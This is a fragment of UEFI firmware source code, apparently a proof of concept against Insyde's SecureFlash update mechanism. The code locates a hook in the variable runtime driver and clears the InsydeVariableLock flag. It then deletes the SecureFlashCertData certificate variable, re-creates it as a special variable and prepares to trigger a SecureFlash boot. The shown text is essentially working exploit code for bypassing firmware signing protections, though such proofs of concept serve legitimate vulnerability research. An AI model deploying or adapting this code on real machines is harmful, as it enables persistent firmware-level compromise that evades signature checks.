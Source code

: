 ```cpp
    }
    
    if (Size == 0x100) {
      gRT->SetVariable(L"SecureFlashPoCError2", &gSecureFlashVariableGuid, 7, Size, Ptr);
      return EFI_NOT_FOUND;
    }
    
    // VariableRuntimeDxe is loaded from AprioriDxe before all the other drivers that could have hooked Bds->Entry, to our hook will be the very first
    if (Size != sizeof(VARIABLE_RUNTIME_BDS_ENTRY_HOOK)) {
      gRT->SetVariable(L"SecureFlashPoCError3", &gSecureFlashVariableGuid, 7, Size, Ptr);
      return EFI_NOT_FOUND;
    }
    
    // It is indeed the very first one, proceed
    VARIABLE_RUNTIME_BDS_ENTRY_HOOK *Hook = (VARIABLE_RUNTIME_BDS_ENTRY_HOOK*)Bds->Entry;
    
    // Make sure we have all expected bytes at expected offsets
    if (Hook->Byte48 != 0x48 || Hook->Byte8B != 0x8B || Hook->Byte05 != 0x05 || Hook->ByteC6 != 0xC6 || Hook->Byte80 != 0x80) {
      gRT->SetVariable(L"SecureFlashPoCError4", &gSecureFlashVariableGuid, 7, Size, Ptr);
      return EFI_NOT_FOUND;
    }
      
    // Check the current value of InsydeVariableLock
    EFI_PHYSICAL_ADDRESS VariableRuntimeDxeGlobals = *(EFI_PHYSICAL_ADDRESS*)(Ptr + 7 + Hook->RipOffset); // 7 bytes is for the 48 8B 05 XX XX XX XX bytes of first instruction
    UINT8* InsydeVariableLock = (UINT8*)(VariableRuntimeDxeGlobals + Hook->RaxOffset);
    
    // Flip it to 0 if it was 1
    if (*InsydeVariableLock == 1) {
      *InsydeVariableLock = 0;
    }
    // Bail if it's something else
    else {
      gRT->SetVariable(L"SecureFlashPoCError5", &gSecureFlashVariableGuid, 7, sizeof(UINT8), &InsydeVariableLock);
      return EFI_NOT_FOUND;
    }
    
    // Try removing the current NV+BS+RT certificate variable (it might already be set as AW, removal will fail in this case)
    Status = gRT->SetVariable(L"SecureFlashCertData", &gSecureFlashVariableGuid, 0, 0, NULL);
    if (!EFI_ERROR(Status)) { 
      // Try setting it as special NV+BS+RT+AW variable
      Status = SetCertAsInsydeSpecialVariable();
      if (EFI_ERROR(Status)) {
        gRT->SetVariable(L"SecureFlashPoCError6", &gSecureFlashVariableGuid, 7, sizeof(Status), &Status);
          
        // Set certificate variable back as NV+BS+RT, this will allow to try again next boot
        gRT->SetVariable(L"SecureFlashCertData", &gSecureFlashVariableGuid, 7, VariableSize - 48, VariableBuffer + 48);
        return Status;
      }
    }
    
    // Check if we need to trigger SecureFlash boot, or it was already triggered
    Size = sizeof(SecureFlashInfo);
    Status = gRT->GetVariable(L"SecureFlashInfo", &gSecureFlashVariableGuid, &Attributes, &Size, &SecureFlashInfo);
    if (!EFI_ERROR(Status)) {
      if (SecureFlashInfo.SecureFlashTrigger == 0) {
```